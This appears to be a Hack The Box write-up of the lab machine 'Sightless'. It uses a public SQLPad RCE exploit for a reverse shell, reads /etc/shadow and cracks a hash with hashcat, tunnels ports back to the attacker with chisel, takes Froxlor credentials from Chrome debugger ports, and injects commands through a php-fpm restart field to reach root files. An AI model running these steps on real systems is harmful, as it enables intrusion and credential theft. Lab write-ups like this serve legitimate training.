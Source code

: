 ```yaml
---
title: "Sightless Walkthrough(Hack The Box)"
date: 2025-03-20
draft: true
description: "a description"
tags: ["Easy", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
 
---
```

## Reconnaissance #Linux 
- Got three ports open
- ![[Pasted image 20241221001932.png]]
- FTP, SSH, web server
- The page running on `nginx/1.18.0`
## Enumeration
- The web had a Slightless Titled page while scrolling through I found a link button which redirected to `sqlpad.sightless.htb` website.
- I quickly added it hosts and visited it.
- Found  RCE from google in single search : https://github.com/shhrew/CVE-2022-0944.git
## Exploitation
- By executing it got shell
```
python3 main.py http://sqlpad.sightless.htb/ 10.10.14.12 6001
```
- There was a sqlite file in the current working  directory but there isn't any way to transfer it to our machine cause no versions of python installed
- Then I got to know that this is a docker image that we are in
- ![[Pasted image 20241221022335.png]]
- Cause it is weird to have this directory here.
- Anyway from `/etc/passwd`got know that there are two users
- ![[Pasted image 20241221022519.png]]
- From shadow I got the hash of user michael for cracking. Ignore the root hash i am pretty sure it will waste our time.
- ![[Pasted image 20241221022725.png]]
- After finding the module cracked it with my goto tool
```
 hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```
- then logged in via SSH
- Got user flag
- ![[Pasted image 20241221023004.png]]
## Privilege Escalation
- Done some enumeration but `ss -tunlp` looked sus
- Too many ports don't ya think
- ![[Pasted image 20241221023121.png]]
- So I decided to forward all the weird looking ports to my machine
- On my machine
```
chisel server -p 7001 --reverse
```
- On the target machine
```
./chisel client 10.10.14.12:7001 R:3306:localhost:3306 R:44771:localhost:44771 R:8080:localhost:8080 R:43047:localhost:43047 R:41049:localhost:41049 R:3000:localhost:3000 R:33060:localhost:33060
```
- It seems that port 8080 is running Froxlor, which required credentials to login
- All the remaining ports seems to suspicious cause most are non-http ones
- Some of the ports are using chrome debugger internally to do some tasks.
- So I opened chrome and navigated to here chrome://inspect/#devices and added all the ports using configure.
- ![[Pasted image 20241221023839.png]]
- Got some hits. I clicked inspect and saw it automatically logging into Froxlor with credentials often
- From the Network tab, got auth request and got the password and username.
- ![[Pasted image 20241221024137.png]]
- Used those creds and got into Froxlor
- While hanging around there discovered a interesting endpoint that could lead to command injection
- ![[Pasted image 20241221024348.png]]
- Created a New PHP version from PHP-FPM versions
- In the php-fpm restart command filled with `cp /root/root.txt /home`
- Then went to settings and then restarted the php-fpm
- After 3-5 min I got the file in the home directory but we need permissions so again using the same method modified the command to `chmod 777 /home/root.txt`
- ![[Pasted image 20241221024823.png]]
- Got the user flag. Then realized from the start I should've changed permissions for root directory itself
- ![[Pasted image 20241221024851.png]]

